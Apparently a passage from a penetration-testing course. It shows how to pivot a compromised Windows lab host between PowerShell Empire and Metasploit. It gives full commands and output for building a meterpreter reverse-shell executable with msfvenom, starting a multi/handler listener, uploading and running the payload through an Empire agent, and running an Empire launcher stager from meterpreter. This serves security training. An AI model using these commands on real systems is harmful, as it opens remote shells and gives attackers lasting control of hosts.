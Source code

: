 The Empire agent supports many features. However, there are often times when we need to use features that are only found in Metasploit. Since we can have both Empire and Metasploit shells on the same compromised host, this is actually quite easy.

In PowerShell Empire version 2.4, it was possible to use a meterpreter listener and the injectshellcode module to inject a meterpreter shellcode directly in memory from PowerShell. However, in the newest version (2.5) this code is unfortunately broken.

If a PowerShell Empire agent is active on the host, we can use msfvenom to generate a meterpreter reverse shell as an executable.

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 633 bytes
Final size of exe file: 73802 bytes
Saved as: met.exe
```

We then set up a Metasploit listener using the multi/handler module and the previously-chosen settings:

```
msf5 > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http

msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777

msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4

msf5 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.11.0.4:7777
```

Now we switch back to our PowerShell Empire shell and upload the executable:

```
Empire: S2Y5XW1L) > upload /home/kali/met.exe
[*] Tasked agent to upload met.exe, 72 KB
[*] Tasked S2Y5XW1L to run TASK_UPLOAD
[*] Agent S2Y5XW1L tasked with task ID 12
[*] Agent S2Y5XW1L returned results.
[*] Valid results returned by 10.11.0.22 

Empire: S2Y5XW1L) > shell dir
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 3
[*] Agent S2Y5XW1L returned results.
Directory: C:\Users\offsec.corp\Downloads>


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----  
-a----        10/2/2019  11:24 AM          73802 met.exe                                                               

..Command execution completed.
[*] Valid results returned by 10.11.0.22 
```

After uploading the executable, we issue the dir shell command (Listing 31) to reveal its location and execute it:

```
(Empire: S2Y5XW1L) > shell C:\Users\offsec.corp\Downloads>met.exe
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 5
[*] Agent S2Y5XW1L returned results.
..Command execution completed.
[*] Valid results returned by 10.11.0.22 
```

With the executable running, we'll switch back to our meterpreter listener and watch the incoming shell:

```
[*] Started HTTP reverse handler on http://10.11.0.4:7777
[*] http://10.11.0.4:7777 handling request from 10.11.0.22; Staging x86 payload (18082
[*] Meterpreter session 1 opened (10.11.0.4:7777 -> 10.11.0.22:50597)

meterpreter>
```

Reversing this process to connect to an Empire agent from an existing meterpreter session is also simple. We can create a launcher (.bat format) and use meterpreter to upload and execute it. First we'll create the launcher using Empire:

```
(Empire: listeners) > usestager windows/launcher_bat

(Empire: stager/windows/launcher_bat) > set Listener http

(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat
```

Then we can upload and execute it:

```
meterpreter > upload /tmp/launcher.bat
[*] uploading  : /tmp/launcher.bat -> launcher.bat
[*] Uploaded 4.69 KiB of 4.69 KiB (100.0%): /tmp/launcher.bat -> launcher.bat
[*] uploaded   : /tmp/launcher.bat -> launcher.bat

meterpreter > shell
Process 4644 created.
Channel 2 created.

C:\Users\offsec.corp\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E6A-47F8

 Directory of C:\Users\offsec.corp\Downloads

09/19/2019  08:42 AM    <DIR>          .
09/19/2019  08:42 AM    <DIR>          ..
09/19/2019  08:42 AM             4,802 launcher.bat
               1 File(s)         4,802 bytes
               2 Dir(s)   2,022,359,040 bytes free

C:\Users\offsec.corp\Downloads>launcher.bat
launcher.bat
```

Now we should receive an Empire agent from the compromised host:

```
(Empire: agents) > [+] Initial agent LEBYRW67 from 10.11.0.22 now active (Slack)
```

Using these techniques, we can take advantage of both frameworks on the same compromised host.